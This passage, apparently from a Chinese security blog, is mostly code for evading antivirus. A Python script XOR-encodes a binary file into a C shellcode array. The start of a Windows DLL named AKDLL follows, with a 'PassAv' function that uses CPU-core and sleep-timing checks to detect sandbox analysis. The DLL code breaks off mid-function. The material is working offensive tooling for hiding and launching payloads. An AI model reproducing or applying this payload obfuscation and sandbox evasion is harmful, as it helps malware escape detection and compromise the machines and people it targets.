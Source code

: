 [![](https://p1.ssl.qhimg.com/t01a1bb78a49a9b2737.png)](https://p1.ssl.qhimg.com/t01a1bb78a49a9b2737.png)

代码：

```
#B2C.py

from argparse import ArgumentParser, FileType

def xor(num, src, dst):
    shellcode = 'unsigned char buf[] = "'
    shellcode_size = 0
    while True:
        code = src.read(1)
        if not code:
             break
        code_xor = ord(code) ^ num
        code_hex = hex(code_xor).replace('0x', '')
        if (len(code_hex) == 1):
            code_hex = '0' + code_hex
        shellcode = shellcode + '\\x' + code_hex
        shellcode_size += 1
    shellcode = shellcode+'";'
    src.close()
    dst.write(shellcode)
    dst.close()
    return shellcode_size
def main():
    arg = ArgumentParser(prog='B2C')
    arg.add_argument('-s', '--src', help='source', type=FileType('rb'), required=True)
    arg.add_argument('-d', '--dst', help='destination', type=FileType('w+'), required=True)
    arg.add_argument('-n', '--num', help='xor number', type=int, default=99)
    args = arg.parse_args()
    size = xor(args.num, args.src, args.dst)
    print("[+]Author:lceCre4m\n")
    print("[+]ShellCode_Size:%d\n" %size)
    print("[+]Write %s OK!\n" %args.dst)
if __name__ == "__main__":
    main()
```

```
//AKDLL.dll

#include "pch.h"
#include&lt;windows.h&gt;
#include&lt;stdio.h&gt;

int flag = 0;
void PassAv() `{`
    for (;;) `{`
        SYSTEM_INFO sysguide;
        GetSystemInfo(&amp;sysguide);
        int core = sysguide.dwNumberOfProcessors;
        if (core &lt; 2) `{`
            flag = 1;
            continue;
        `}`

        int tick1 = GetTickCount();
        Sleep(1000);
        int tick2 = GetTickCount();
        if ((tick2 - tick1) &lt; 1000) `{`
            flag = 1;
```
